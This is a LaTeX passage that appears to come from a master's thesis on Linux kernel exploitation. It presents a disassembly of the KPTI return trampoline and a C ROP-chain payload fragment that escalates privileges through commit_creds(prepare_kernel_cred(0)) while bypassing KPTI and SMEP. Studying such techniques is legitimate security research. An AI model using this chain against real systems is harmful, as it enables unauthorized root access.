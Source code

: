 \documentclass{masterthesis}
\newcommand{\refToSubSection}[1]{Subsection~\ref{subsect:#1}\xspace}
\begin{document}
\subsection{Tweaking the ROP chain}
The piece of code resides in a function called \lstinline{swapgs_restore_regs_and_return_to_usermode()} which we always have to find with \lstinline{/proc/kallsyms}.
\begin{lstlisting}
.text:FFFFFFFF81200F10                 pop     r15
...
.text:FFFFFFFF81200F26                 mov     RDI, rsp
.text:FFFFFFFF81200F29                 mov     rsp, qword ptr gs:unk_6004
.text:FFFFFFFF81200F32                 push    qword ptr [RDI+30h]
.text:FFFFFFFF81200F35                 push    qword ptr [RDI+28h]
.text:FFFFFFFF81200F38                 push    qword ptr [RDI+20h]
.text:FFFFFFFF81200F3B                 push    qword ptr [RDI+18h]
.text:FFFFFFFF81200F3E                 push    qword ptr [RDI+10h]
.text:FFFFFFFF81200F41                 push    qword ptr [RDI]
.text:FFFFFFFF81200F43                 push    RAX
.text:FFFFFFFF81200F44                 jmp     short loc_FFFFFFFF81200F89
...

.text:FFFFFFFF81200F89 loc_FFFFFFFF81200F89:
.text:FFFFFFFF81200F89                               pop     RAX
.text:FFFFFFFF81200F8A                               pop     RDI
.text:FFFFFFFF81200F8B                               call    cs:off_FFFFFFFF82040088
.text:FFFFFFFF81200F91                               jmp     cs:off_FFFFFFFF82040080
\end{lstlisting}
Up to the address \textit{FFFFFFFF81200F26} the function makes a series of pop operations that free the stack, then we have to get to the part that swaps the tables of the page.
We have two extra pop at the beginning, then we have to add two additional values, so we have to modify the final part of our ROP chain from \lstinline{SWAPGS|IRETQ|RIP|CS|RFLAGS|SP|SS)} to \lstinline{KPTI_trampoline|dummy RAX|dummy RDI|RIP|CS|RFLAGS|SP|SS}.
\begin{lstlisting}
void overflow(void){
    // ...
    payload[off++] = commit_creds; // commit_creds(prepare_kernel_cred(0))
    payload[off++] = kpti_trampoline; // swapgs_restore_regs_and_return_to_usermode + 22
    payload[off++] = 0x0; // dummy RAX
    payload[off++] = 0x0; // dummy RDI
    payload[off++] = user_rip;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;
    // ...
\end{lstlisting}
This solution can be used regardless of whether KPTI is enabled or not.
So, even if different from the one seen in \refToSubSection{second scenario}, it can be used to bypass the SMEP.
\end{document}
